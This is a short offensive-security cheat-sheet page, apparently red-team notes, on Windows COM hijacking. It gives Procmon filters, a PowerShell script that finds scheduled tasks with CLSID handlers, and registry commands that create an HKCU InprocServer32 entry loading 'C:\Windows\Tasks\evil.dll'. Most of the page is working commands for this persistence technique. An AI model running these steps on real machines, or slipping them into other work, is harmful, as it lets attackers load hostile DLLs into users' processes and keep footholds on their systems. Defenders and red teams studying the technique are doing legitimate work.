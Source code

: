 

### COM Hijacking

Locate good targets to hijack with Procmon filters:

- *Operation* is **RegOpenKey**
- *Result* is **NAME NOT FOUND**
- *Path* is **InprocServer32** (in-process server allowing the specified DLL to be loaded into current process memory space)

Locate CLSIDs from scheduled tasks:

{% code title="schtask.ps1" %}
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
{% endcode %}

Check if a COM component exists under a relevant registry hive by its CLSID:

```
PS > Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
PS > Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
```

If it exists under `HKLM` but does **not** exists under `HKCU` hive, we can hijack this COM component by creating a new item in the latter path:

```
PS > New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > New-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -Name "InprocServer32" -Value "C:\Windows\Tasks\evil.dll"
PS > New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32" -Name "ThreadingModel" -Value "Both"
PS > Get-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32"
```
